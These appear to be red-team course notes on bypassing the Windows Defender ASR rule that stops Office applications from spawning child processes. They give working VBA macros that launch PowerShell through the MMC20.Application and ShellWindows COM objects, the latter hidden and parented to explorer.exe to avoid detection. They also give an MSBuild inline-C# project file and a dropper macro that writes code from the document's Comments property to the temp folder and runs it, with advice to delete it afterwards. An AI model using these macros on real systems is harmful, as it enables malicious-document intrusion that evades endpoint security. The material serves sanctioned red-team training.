 _"This rule blocks Office apps from creating child processes. This includes Word, Excel, PowerPoint, OneNote, and Access.**"**_

In the [Red Team Ops](https://training.zeropointsecurity.co.uk/courses/2) course, students create macro-enabled documents that spawn and run a PowerShell payload.  The VBA looks something like this:

Sub Exec()
    Dim wsh As Object
    Set wsh = CreateObject("WScript.Shell")
    wsh.Run "powershell"
    Set wsh = Nothing
End Sub

  

If we try and run this on WKSTN-2 which has this ASR rule enabled, we're blocked with a Windows Security alert.

![[61. Block Child Processes.png]]

## COM Bypass

One method to get around this is by using COM.  It's possible to instantiate COM objects directly from VBA, so we can look at leveraging those that we know result in code execution.

Not every COM object will do though - the **LocalServer32** key must be set so that the process will have a parent that is **not** the Office application.  For instance, the **MMC20.Application** object will use mmc.exe as the parent, and both the **ShellWindows** and **ShellBrowserWindow** ShellExecute methods will use explorer.exe as the parent.

Here's an example using MMC20.Application:

Sub Exec()
    Dim mmc As Object
    Set mmc = CreateObject("MMC20.Application")
    mmc.Document.ActiveView.ExecuteShellCommand "powershell", "", "", "7"
    Set mmc = Nothing
End Sub

  

mmc.exe will close straight away, thus leaving PowerShell spawned but without a parent.

![[62. Block Child Processes.png]]

  Different versions of Windows seem to handle spawning MMC20.Application differently.  During my research I found that Windows 10 (tested using 21H1) will spawn mmc.exe as a child of the calling app (in this case Word/Excel/etc).  But on Windows Server 2019 (1809), mmc.exe spawns as a child of svchost.exe.

So the above VBA will bypass this ASR rule on something like a Terminal Services machine or a server delivering Office via Citrix, but not on a "standard" end-user Windows 10 machine.

And here's another example using ShellWindows:

Sub Exec()
    Dim com As Object
    Set com = GetObject("new:9BA05972-F6A8-11CF-A442-00A0C90A8F39")
    com.Item.Document.Application.ShellExecute "powershell", "", "", Null, 0
    Set com = Nothing
End Sub

  

This will not produce a visible PowerShell window, but it will be running as a child of explorer.exe.  This is probably the most OPSEC way to spawn PowerShell (as far as OPSEC and PowerShell goes).

![[63. Block Child Processes.png]]

## LOLBAS

It also turns out that not all processes are blocked when this rule is enabled.  For instance, `WScript.Shell` can be used to start Notepad.

![[64. Block Child Processes.png]]

This suggests that the ASR rule is actually based on some sort of blacklist, so there may be scope to use command-line based execution.  An obvious place to look for these is the [LOLBAS project](https://lolbas-project.github.io/).  It only took me a few minutes to discover that **msbuild.exe** is not blocked, and there are probably loads more if you look deeper.

MSBuild can execute inline C# code from a `.xml` or `.csproj` file.  The MSBuild XML schema is documented [here](https://docs.microsoft.com/en-us/visualstudio/msbuild/msbuild-project-file-schema-reference).  Take the following example:

<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <Target Name="MSBuild">
    <ASRSucks />
  </Target>
  <UsingTask
    TaskName="ASRSucks"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
    <Task>
      <Code Type="Class" Language="cs">
      <![CDATA[
        using System;
        using Microsoft.Build.Framework;
        using Microsoft.Build.Utilities;
        
        public class ASRSucks : Task, ITask
        {         
          public override bool Execute()
          {
              Console.WriteLine("Hello from C#!");
              return true;
          } 
        }     
      ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>

  

This can be executed like so:

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe test.xml

![[65. Block Child Processes.png]]



The only requirement is that we drop this code to disk.  One strategy could be to save the code somewhere in the document (such as the comments), fetch it with the Macro, write to disk and execute.

![[66. Block Child Processes.png]]

Sub Exec()
    Dim comment As String
    Dim fSo As Object
    Dim dropper As Object
    Dim wsh As Object
    Dim temp As String
    Dim command As String
    
    temp = LCase(Environ("TEMP"))
    
    Set fSo = CreateObject("Scripting.FileSystemObject")
    Set dropper = fSo.CreateTextFile(temp & "\code.xml", True)
    
    comment = ActiveDocument.BuiltInDocumentProperties("Comments").Value
    
    dropper.WriteLine comment
    dropper.Close
    
    Set wsh = CreateObject("WScript.Shell")
    
    command = "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe " & temp & "\code.xml"
    
    wsh.Run command
    
    Set fSo = Nothing
    Set dropper = Nothing
    Set wsh = Nothing
End Sub

  

  Remember that this drops the code to disk, so ensure you remove it afterwards.

